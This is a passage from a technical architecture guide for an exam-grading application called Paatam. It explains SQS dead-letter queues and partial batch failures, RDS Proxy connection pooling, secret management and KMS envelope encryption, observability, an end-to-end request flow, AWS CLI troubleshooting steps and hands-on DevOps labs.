- **Dead-Letter Queue (DLQ)**: If a message fails processing `maxReceiveCount = 3` times, SQS moves it to the DLQ, triggering a CloudWatch Alarm.

#### Do SQS Queues Have Security Groups?
**NO!** SQS is a fully managed multi-tenant AWS service. It does not live inside your private subnet and has no IP address. Access to SQS is governed strictly by **IAM Policies** and **SQS Queue Resource Policies**.

---

### Lambda Concurrency, Batch Sizes & Partial Batch Failures

In [`terraform/lambdas.tf`](file:///home/phani/My/paatam_application/paatam_backend/terraform/lambdas.tf#L374-L400), each event source mapping specifies:
```hcl
batch_size = 1
```

#### What if Concurrency is 500 and Batch Size is 1?
- If 500 students submit exams simultaneously, SQS has 500 messages.
- AWS Lambda spins up **500 parallel Lambda worker instances**, each processing exactly 1 student paper. All 500 papers finish processing in parallel in ~15 seconds!

#### What if Batch Size is 10, and 7 Pass while 3 Fail?
> [!WARNING]
> By default, if a Lambda function receives a batch of 10 messages and throws an unhandled exception on message #8, **SQS marks the ENTIRE batch of 10 as failed!**
> All 10 messages will return to the queue, meaning the 7 students whose papers were already evaluated will be re-evaluated (causing duplicate work and double AI API billing).

#### The Solution: `ReportBatchItemFailures`
In your Lambda handler, return which specific message IDs failed:
```typescript
export const handler = async (event: SQSEvent) => {
  const batchItemFailures: { itemIdentifier: string }[] = [];

  for (const record of event.Records) {
    try {
      await processSubmission(record.body);
    } catch (err) {
      // Mark only this specific record as failed!
      batchItemFailures.push({ itemIdentifier: record.messageId });
    }
  }

  return { batchItemFailures };
};
```
With this enabled, SQS acknowledges and deletes the 7 successful messages, and retries *only* the 3 that failed!

---

### 8.7 Database Architecture: RDS PostgreSQL, RDS Proxy & DynamoDB

#### Why Do Serverless Lambdas Crash Traditional PostgreSQL Databases?
PostgreSQL uses a **process-per-connection architecture**. Every time a client connects, PostgreSQL spawns a full operating system process consuming ~10 MB of RAM.

```mermaid
graph TD
    subgraph The Danger of Direct Lambda Connections
        L1["Lambda 1"] -->|Conn 1| PG[("PostgreSQL DB<br/>max_connections = 100")]
        L2["Lambda 2"] -->|Conn 2| PG
        L3["Lambda 300"] -->|Conn 300| PG
        PG -->|"💥 Out of Memory / 'too many connections'"| CRASH["Database Crashes"]
    end
```

If 500 Lambdas spin up to evaluate exams, they attempt to open 500 database connections simultaneously. A `db.t4g.micro` or `db.t4g.small` instance will hit `max_connections = 100` and crash with fatal connection errors!

---

#### The Solution: AWS RDS Proxy

```mermaid
graph TD
    subgraph Connection Pooling with RDS Proxy
        L1["Lambda 1"] --> Proxy["AWS RDS Proxy<br/>(Multiplexes 500 client connections into 20 warm DB pools)"]
        L2["Lambda 2"] --> Proxy
        L3["Lambda 500"] --> Proxy
        Proxy -->|20 Persistent Connections| DB[("PostgreSQL DB<br/>Smooth & Stable")]
    end
```

- **RDS Proxy** sits between your Lambdas and PostgreSQL.
- It holds open a pool of warm database connections.
- When 500 Lambdas request connections, RDS Proxy **multiplexes** them: as soon as Lambda 1 finishes its query (in 2ms), RDS Proxy immediately hands that connection to Lambda 2.
- **What if all connections are busy?** RDS Proxy queues incoming queries in memory for up to 15 seconds rather than rejecting them with a connection error!

---

#### Comparison: RDS PostgreSQL vs DynamoDB

| Feature | Amazon RDS (PostgreSQL) | Amazon DynamoDB |
| :--- | :--- | :--- |
| **Data Model** | Relational Tables, SQL, ACID transactions, Foreign Keys | NoSQL Key-Value & Document Store |
| **Scaling** | Vertical (Increase CPU/RAM) + Read Replicas | Instant Horizontal Scaling (Unlimited TPS) |
| **Vector Search** | Supported natively via `pgvector` extension | Requires integration with OpenSearch |
| **Connection Model**| Stateful TCP connections (Needs RDS Proxy) | Stateless HTTPS REST calls (Immune to connection pool crashes) |
| **Primary Use in Paatam**| Multi-tenant school data, academic years, grades, exam blueprints | Real-time chat, session locks, high-throughput audit telemetry |

---

### 8.7.1 AWS Secrets Manager vs AWS SSM Parameter Store & AWS KMS Envelope Encryption

Managing API keys, database credentials, and certificates securely is mandatory for enterprise compliance (SOC2, ISO 27001).

```mermaid
graph TD
    subgraph Secret Management Landscape
        SSM["AWS Systems Manager (SSM) Parameter Store<br/>- Best for flat config strings & flags<br/>- Standard Tier: $0.00 (100% FREE!)<br/>- Up to 10,000 parameters per account"]
        SM["AWS Secrets Manager<br/>- Best for Database Passwords & AI API Keys<br/>- Automatic Lambda credential rotation<br/>- Cost: $0.40/secret/month + $0.05/10k API calls"]
    end
```

#### Comparison: AWS Secrets Manager vs SSM Parameter Store

| Feature | AWS Systems Manager (SSM) Parameter Store | AWS Secrets Manager |
| :--- | :--- | :--- |
| **Pricing** | **Free Standard Tier** ($0.00 for up to 10k parameters) | **$0.40 per secret per month** + $0.05 per 10k API calls |
| **Automatic Password Rotation**| ❌ No built-in rotation (Must write custom scripts) | **Built-in Native Rotation** (Triggers a Lambda to rotate RDS passwords seamlessly without downtime) |
| **Cross-Account Secret Sharing**| ❌ Limited | Supported natively via Resource Policies |
| **JSON Payload Bundling** | Supported (stored as text string) | **Natively formatted JSON key-value bundles** |
| **KMS Encryption Support** | Supported via `SecureString` type | Supported natively (Customer Managed Keys or AWS default) |
| **When to Use in Paatam** | General environment flags (`NODE_ENV`, feature flags, public endpoints) | **PostgreSQL credentials (`DATABASE_URL`), `GEMINI_API_KEY`, `SARVAM_API_KEY`** |

---

### AWS KMS (Key Management Service) & Envelope Encryption

AWS KMS is a managed hardware security module (HSM) service for generating and controlling cryptographic keys.

#### Why Can't KMS Encrypt Large Files Directly?
The AWS KMS `kms:Encrypt` API has a strict hard limit: **it cannot encrypt data larger than 4 Kilobytes!**
If you try to send a 50 MB student answer sheet PDF directly to KMS, the API throws an error.

#### The Solution: Envelope Encryption

```mermaid
sequenceDiagram
    autonumber
    participant App as Paatam Application (Node.js)
    participant KMS as AWS KMS (Master Key / CMK)
    participant S3 as Amazon S3 Storage

    Note over App,KMS: Step 1: Request Data Encryption Key (DEK)
    App->>KMS: GenerateDataKey(KeyId: "alias/paatam-kms-key")
    KMS-->>App: Returns: [Plaintext DEK (256-bit)] + [Encrypted DEK]

    Note over App: Step 2: Encrypt Data Locally
    App->>App: Encrypt 50 MB Student PDF using [Plaintext DEK] with AES-GCM (Takes 50ms!)
    App->>App: DESTROY [Plaintext DEK] from RAM memory!

    Note over App,S3: Step 3: Store Ciphertext + Encrypted DEK
    App->>S3: PutObject(Ciphertext PDF + Encrypted DEK in Metadata)

    Note over App,KMS: Decryption Flow
    App->>S3: GetObject(Ciphertext PDF + Encrypted DEK)
    App->>KMS: Decrypt(CiphertextBlob: Encrypted DEK)
    KMS-->>App: Plaintext DEK
    App->>App: Decrypt PDF locally with Plaintext DEK
    App->>App: DESTROY Plaintext DEK
```

#### Why Envelope Encryption is Industry Standard:
1. **Speed & Efficiency**: Encrypting multi-gigabyte files locally in RAM using AES-256 is orders of magnitude faster than sending raw bytes across network cables to KMS.
2. **Network Security**: The plaintext data never leaves your VPC network boundary.
3. **Master Key Protection**: The root KMS Customer Managed Key (CMK) never leaves the tamper-proof AWS HSM hardware.

---

### 8.8 CloudWatch, AWS X-Ray, EventBridge & Distributed Observability

Paatam's observability pipeline ensures zero blind spots across the distributed system:

1. **Amazon CloudWatch Logs**:
   - Collects structured JSON logs from ECS containers and all 5 worker Lambdas.
   - Retained for 14 days in Dev and 30 days in Prod to optimize storage costs.

2. **CloudWatch Alarms**:
   - Monitored queues: `paatam-assignment-ocr-dlq-dev`, `paatam-paper-ocr-dlq-dev`, `paatam-paper-evaluation-dlq-dev`, `paatam-bulk-split-dlq-dev`.
   - **DLQ Alarm Rule**: If `ApproximateNumberOfMessagesVisible >= 1`, an alarm triggers immediately to alert the engineering team that an AI job failed processing.

3. **AWS X-Ray Distributed Tracing**:
   - Enabled with `mode = "Active"` on all Lambdas.
   - Generates an end-to-end Service Map showing exact execution times spent inside Express, SQS, PostgreSQL, and external Gemini API endpoints.

4. **Amazon EventBridge (Cron Scheduler)**:
   - Configured with `schedule_expression = "rate(5 minutes)"`.
   - Fires every 5 minutes to trigger the [`paatam-sweeper-dev`](file:///home/phani/My/paatam_application/paatam_backend/src/workers/sweeper.worker.ts) Lambda, rescuing any submissions stuck in processing states due to sudden transient network dropouts.

---

# 9. End-to-End Request Lifecycle: The Complete Front-to-Back Journey

Let's trace what happens from the millisecond a student clicks **"Submit Answer Sheet"** to the moment their graded scorecard appears:

```mermaid
sequenceDiagram
    autonumber
    actor S as Student Browser
    participant WAF as AWS WAF
    participant ALB as Application Load Balancer
    participant ECS as ECS Fargate (API)
    participant S3 as Amazon S3
    participant DB as PostgreSQL
    participant SQS as SQS Evaluation Queue
    participant Lambda as Evaluation Lambda
    participant AI as Gemini 3.6 Flash

    S->>WAF: POST /api/student/assignments/101/submit
    WAF->>WAF: Inspect IP reputation, SQLi, payload size
    WAF->>ALB: Forward clean packet
    ALB->>ECS: Forward to Target Group on port 4545
    ECS->>DB: Assert student is enrolled in assignment class
    ECS->>S3: Generate SigV4 Pre-signed PUT URL
    ECS-->>S: 200 OK { uploadUrl: "https://paatam-uploads-dev.s3.../sheet.pdf?sig=..." }
    
    Note over S,S3: Direct Browser-to-S3 Upload (Bypasses backend server!)
    S->>S3: HTTP PUT sheet.pdf
    S3-->>S: 200 OK (Upload Complete)

    S->>ECS: POST /api/student/assignments/101/confirm { s3_key: "..." }
    ECS->>DB: INSERT INTO submission (status: 'queued', evaluation_status: 'pending')
    ECS->>SQS: SendMessage { submissionId: "4996775437952006" }
    ECS-->>S: 202 Accepted { message: "Submission queued for evaluation", poll_url: "..." }

    Note over SQS,AI: Asynchronous Background Processing
    SQS->>Lambda: Trigger Event Source Mapping (Batch Size: 1)
    Lambda->>S3: Download sheet.pdf & answer_key.pdf buffers
    Lambda->>AI: GenerateContentStream (Handwriting OCR + Rubric Grading)
    AI-->>Lambda: Returns structured JSON { score: 16, feedback: "Great work...", breakdown: [...] }
    Lambda->>DB: UPDATE submission SET score=16, status='pending_review', final_evaluation_json=...
    Lambda->>DB: INSERT INTO notification ("Your paper has been graded!")

    Note over S,ECS: Teacher Review & Student View
    S->>ECS: GET /api/submissions/4996775437952006
    ECS->>S3: Generate SigV4 Pre-signed GET URLs (Answer Key + Student Paper)
    ECS-->>S: 200 OK (Displays score: 16/20, feedback, and renders papers without AccessDenied!)
```

---

# 10. Real-World Troubleshooting & RCA: Debugging Async AI Pipelines

When an evaluation fails or an answer sheet does not succeed, follow this exact battle-tested playbook:

### Step 1: Check Dead-Letter Queues (DLQ)
Run this command from your terminal:
```bash
aws sqs get-queue-attributes \
  --queue-url https://sqs.ap-south-2.amazonaws.com/473671718844/paatam-paper-evaluation-dlq-dev \
  --attribute-names ApproximateNumberOfMessagesVisible
```
- If `ApproximateNumberOfMessagesVisible > 0`, a message failed processing 3 times and landed in the DLQ.

---

### Step 2: Read Messages from the Dead-Letter Queue
To inspect what job failed without deleting it:
```bash
aws sqs receive-message \
  --queue-url https://sqs.ap-south-2.amazonaws.com/473671718844/paatam-paper-evaluation-dlq-dev \
  --max-number-of-messages 1 \
  --visibility-timeout 30
```
Inspect the output payload JSON to find the affected `submissionId`.

---

### Step 3: Inspect Lambda Error Logs in CloudWatch
Query the exact error stack trace using CloudWatch Insights:
```bash
aws logs filter-log-events \
  --log-group-name /aws/lambda/paatam-paper-evaluation-dev \
  --filter-pattern "ERROR" \
  --start-time $(date -d '1 hour ago' +%s000)
```

#### Common Error Signatures and How to Fix Them:
1. **`Task timed out after 900.00 seconds`**:
   - *Cause*: A multi-page PDF took longer than 15 minutes to OCR.
   - *Fix*: Optimize the bulk splitter to split large PDFs into single-page chunks before evaluation.
2. **`Runtime.OutOfMemoryError`**:
   - *Cause*: Lambda memory size (1024 MB) was exceeded while decoding high-resolution PDF canvases.
   - *Fix*: Increase `memory_size = 2048` in [`terraform/lambdas.tf`](file:///home/phani/My/paatam_application/paatam_backend/terraform/lambdas.tf#L143).
3. **`AccessDenied` on S3 Object**:
   - *Cause*: S3 bucket is private and URL was missing SigV4 pre-signing.
   - *Fix*: Wrap URL generation with `S3Service.generatePresignedDownloadUrl(url, 7200)`.

---

# 11. Hands-On Practice Labs & DevOps Mastery Exercises

To solidify your understanding and transition from a CRUD developer to an AWS DevOps Master, complete these 3 hands-on practical labs:

### Lab 1: Simulate and Resolve SQS Poison Pill Messages
- **Goal**: Understand how unparseable messages end up in the DLQ and how to redrive them.
- **Task**:
  1. Manually inject a malformed JSON string into `paatam-paper-evaluation-queue-dev` using the AWS CLI:
     ```bash
     aws sqs send-message \
       --queue-url https://sqs.ap-south-2.amazonaws.com/473671718844/paatam-paper-evaluation-queue-dev \
       --message-body "INVALID_NON_JSON_STRING"
     ```
  2. Watch CloudWatch logs as the Lambda attempts to process it, fails 3 times, and moves it to `paatam-paper-evaluation-dlq-dev`.
  3. Purge the poison pill or configure an SQS Redrive task to move valid messages back to the main queue.

---

### Lab 2: Build a Custom Terraform Subnet & Security Group
- **Goal**: Gain confidence authoring HCL code from scratch.
- **Task**:
  1. Open [`terraform/main.tf`](file:///home/phani/My/paatam_application/paatam_backend/terraform/main.tf).
  2. Add a new isolated subnet for Redis caching:
     ```hcl
     resource "aws_subnet" "cache" {
       count             = 2
       vpc_id            = aws_vpc.main.id
       cidr_block        = "10.0.${count.index + 31}.0/24"
       availability_zone = data.aws_availability_zones.available.names[count.index]
       tags = { Name = "paatam-cache-${count.index}-${var.environment}" }
     }
     ```
  3. Run `terraform plan -var-file="environments/dev.tfvars"` to verify that Terraform plans exactly 2 new subnets without altering any existing database or ECS resources!

---

### Lab 3: Password Hash Cracking Resistance Test
- **Goal**: Experience firsthand why bcrypt work factors matter.
- **Task**:
  1. Write a small script comparing the time taken to compute `bcrypt.hash("password", 8)`, `bcrypt.hash("password", 10)`, and `bcrypt.hash("password", 14)`.
  2. Observe how each increment in cost factor doubles computation time ($2^N$), protecting your users against offline GPU cracking clusters!

---

*Authored by the Google DeepMind Antigravity Engineering Team for Paatam Application.*

